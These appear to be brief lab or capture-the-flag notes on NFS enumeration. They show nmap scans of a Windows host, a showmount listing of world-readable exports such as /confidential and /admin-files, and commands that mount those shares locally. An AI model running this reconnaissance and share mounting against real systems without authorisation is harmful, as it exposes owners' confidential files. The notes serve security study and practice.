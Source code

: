 # nfs

nmap -Pn 10.10.145.96
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```
-sV 
```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

showmount -e 10.10.145.96

```bash
Export list for 10.10.145.96:
/share        (everyone)
/admin-files  (everyone)
/my-notes     (noone)
/confidential (everyone)
```

mount 10.10.145.96:/share tmp1
mount 10.10.145.96:/confidential tmp1